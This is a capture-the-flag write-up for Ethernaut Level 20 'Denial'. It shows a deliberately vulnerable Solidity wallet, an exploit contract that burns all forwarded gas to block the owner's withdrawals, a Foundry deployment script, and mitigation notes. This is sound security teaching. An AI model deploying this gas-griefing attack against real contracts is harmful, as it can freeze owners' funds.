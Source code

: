 # Level 20 - Denial ⏺⏺⏺

{% embed url="https://ethernaut.openzeppelin.com/level/20" %}

### Level Setup

{% hint style="info" %}
This is a simple wallet that drips funds over time. You can withdraw the funds slowly by becoming a withdrawing partner.

If you can deny the owner from withdrawing funds when they call `withdraw()` (whilst the contract still has funds, and the transaction is of 1M gas or less) you will win this level.
{% endhint %}

### Level Contract

{% embed url="https://github.com/OpenZeppelin/ethernaut/blob/a89c8f7832258655c09fde16e6602c78e5e99dbd/contracts/src/levels/Denial.sol" %}

{% code lineNumbers="true" fullWidth="true" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint256 timeLastWithdrawn;
    mapping(address => uint256) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint256 amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```
{% endcode %}

### Exploit

{% tabs %}
{% tab title="Anvil" %}
```bash
make anvil-exploit-level-20

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}

{% tab title="Holesky" %}
```bash
make holesky-exploit-level-20

<INPUT_LEVEL_INSTANCE_CONTRACT_ADDRESS>
```
{% endtab %}
{% endtabs %}

{% tabs %}
{% tab title="Exploit Contract" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/26ebb8956b333626f21e90a270ad87a258233f49/src/Level20.sol" %}

{% code title="src/Level20.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

// ================================================================
// │                        LEVEL 20 - DENIAL                     │
// ================================================================
contract AttackContract {
    uint256 counter;

    function burn() internal {
        while (gasleft() > 0) {
            counter += 1;
        }
    }

    receive() external payable {
        burn();
    }
}
```
{% endcode %}
{% endtab %}

{% tab title="Exploit Deployment Script" %}
{% embed url="https://github.com/EridianAlpha/ethernaut-foundry/blob/26ebb8956b333626f21e90a270ad87a258233f49/script/Level20.s.sol" %}

{% code title="script/Level20.s.sol" %}
```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import {Script, console} from "forge-std/Script.sol";
import {HelperFunctions} from "script/HelperFunctions.s.sol";

import {AttackContract} from "src/Level20.sol";

// ================================================================
// │                        LEVEL 20 - DENIAL                     │
// ================================================================
interface IDenial {
    function withdraw() external;
    function setWithdrawPartner(address _partner) external;
}

contract Exploit is Script, HelperFunctions {
    function run() public {
        address targetContractAddress = getInstanceAddress();
        IDenial denial = IDenial(targetContractAddress);

        vm.startBroadcast();
        denial.setWithdrawPartner(address(new AttackContract()));
        vm.stopBroadcast();
    }
}
```
{% endcode %}
{% endtab %}
{% endtabs %}

Submit instance... 🥳

### Completion Message

{% hint style="info" %}
This level demonstrates that external calls to unknown contracts can still create denial of service attack vectors if a fixed amount of gas is not specified.

If you are using a low level `call` to continue executing in the event an external call reverts, ensure that you specify a fixed gas stipend. For example `call.gas(100000).value()`.

Typically one should follow the [checks-effects-interactions](http://solidity.readthedocs.io/en/latest/security-considerations.html#use-the-checks-effects-interactions-pattern) pattern to avoid reentrancy attacks, there can be other circumstances (such as multiple external calls at the end of a function) where issues such as this can arise.

_Note_: An external `CALL` can use at most 63/64 of the gas currently available at the time of the `CALL`. Thus, depending on how much gas is required to complete a transaction, a transaction of sufficiently high gas (i.e. one such that 1/64 of the gas is capable of completing the remaining opcodes in the parent call) can be used to mitigate this particular attack.
{% endhint %}

### Notes

{% embed url="https://github.com/nvnx7/ethernaut-openzeppelin-hacks/blob/e936301859334383d568a614084917100319205e/level_20_Denial.md" %}

